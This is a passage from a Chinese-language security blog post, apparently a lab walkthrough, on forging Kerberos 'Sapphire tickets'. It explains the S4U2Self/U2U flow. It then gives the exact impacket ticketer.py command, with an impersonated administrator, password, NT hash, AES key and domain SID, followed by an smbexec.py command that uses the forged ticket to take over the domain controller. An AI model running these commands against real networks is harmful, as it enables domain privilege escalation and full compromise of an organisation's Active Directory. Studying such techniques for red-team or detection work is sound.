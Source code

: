 ### 蓝宝石票据 Sapphire tickets

由于钻石票据直接修改 TGT 中 PAC 显得太过直接，于是又出现了更加隐蔽的蓝宝石票据，在 Kerberos 认证过程中，蓝宝石票据（Sapphire Ticket）的产生涉及到 Kerberos 的 S4U2Self 和 U2U 扩展。这使得它成为最难检测的银/金票据的变体，在这个流程中：

-   用户首先通过正常的 Kerberos 认证流程获取到 TGT（Ticket Granting Ticket）。
-   用户随后发起一个 S4U2Self 请求，这个请求是针对自己的，但是由于服务名称（SPN）的问题，KDC（Kerberos 身份验证服务）无法解析这个请求。
-   用户接着请求 U2U 扩展，这允许用户以另一个用户的身份进行身份验证。
-   KDC 使用 U2U 扩展来获取目标用户的 TGT，这个目标用户就是高权限的用户。
-   KDC 基于目标用户的 TGT 生成一个 ST（Service Ticket）。
-   用户使用 krbtgt 账户的密钥来解密这个 ST。
-   用户修改 ST 中的 PAC（Privilege Attribute Certificate），以包含所需的权限。
-   用户重新加密 ST，生成一个新的票据，这个票据就是蓝宝石票据。

目前可用的工具唯一就[ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py), 需要注意也要用 master 分支的，不然会显示没有 impersonate 参数，坑有点多，由于伪造高度依赖和 KDC 的交互，需要在目标环境执行命令；不过我之前不正好有台在域中的 linux，理论上 windows 也是一样，不过 linux 安装方便一点，下载 master 分支之后直接运行：

```plain
python3 setup.py install
```

进入 example 文件夹执行如下命令，-impersonate 代表要模拟的用户，-nthash 和-aesKey 都是域的 hash，-user-id 记得要和前面的 administrator 用户保持一致，否则域控会直接吊销我们的 TGS，还有最后的'administrator'只是票据的文件名而已：

```plain
python3 ticketer.py -request -impersonate 'administrator' -domain endlessparadox.com -user 'satoru' -password '1QAZ2wsx123456' -nthash 'c783a03c8f07f1d75c2b741cd93fe8c0' -aesKey '3a5ae89c92ae4f54b569ecfe622ea5c5b232c2fa8ad1d9b65e9ce07ef80e3d17' -user-id '500' -domain-sid 'S-1-5-21-3455334608-937969980-1598144099' 'administrator'
```

[![](assets/1707953845-677719c7584104fed0a89d86cfc84d2f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040921-73232d66-c462-1.png)

好的，我现在是管理员了，再次 smbexec.py 接管域控，现在所有票据已经演示完毕了

```plain
KRB5CCNAME='administrator.ccache'  python3 smbexec.py -target-ip 192.168.43.136 -dc-ip 192.168.43.136 -k  -no-pass @'ad.endlessparadox.com'
```

[![](assets/1707953845-61695a063bc14e999d758a8ff13155c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040929-7848fd0c-c462-1.png)